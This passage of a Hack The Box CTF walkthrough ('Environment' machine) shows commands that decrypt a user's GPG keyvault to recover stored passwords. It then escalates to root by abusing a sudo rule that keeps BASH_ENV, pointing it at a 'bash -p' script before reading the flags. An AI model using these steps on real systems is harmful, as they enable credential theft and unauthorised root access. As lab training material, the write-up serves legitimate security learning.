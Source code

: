 We can do this simply one liner:

```bash
cp -R /home/hish/.gnupg /tmp && GNUPGHOME=/tmp/.gnupg gpg --decrypt /home/hish/backup/keyvault.gpg
"hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

There we go, we got the password for hish:

```
hish:marineSPm@ster!!
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611170307.png)

Now, let's check our sudo privileges:

```
hish@environment:~$ sudo -l
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

We can run sudo with `/usr/bin/systeminfo`, although, the interesting stuff on here is:

```
env_keep+="ENV BASH_ENV"
```

We can exploit these environment variables by doing:

- Creating a malicious script.
- Pointing `BASH_ENV` to it.
- Running a **`sudo`-allowed command** that invokes **bash**, **or uses bash to run subcommands.**


Let's do it:

```
echo 'bash -p' > /tmp/rootshell.sh
chmod +x /tmp/rootshell.sh
```

Now, we need to set the `BASH_ENV` and run sudo:

```bash
sudo ENV=/tmp/rootshell.sh BASH_ENV=/tmp/rootshell.sh /usr/bin/systeminfo
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611170836.png)

There we go, we got a root shell, let's get both flags and end the CTF:

```
root@environment:/home/hish# cat /home/hish/user.txt
c

root@environment:/home/hish# cat /root/root.txt
3e7980c4bd6234998b50c3b3e6d1ac41
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611170934.png)

https://www.hackthebox.com/achievement/machine/1872557/659

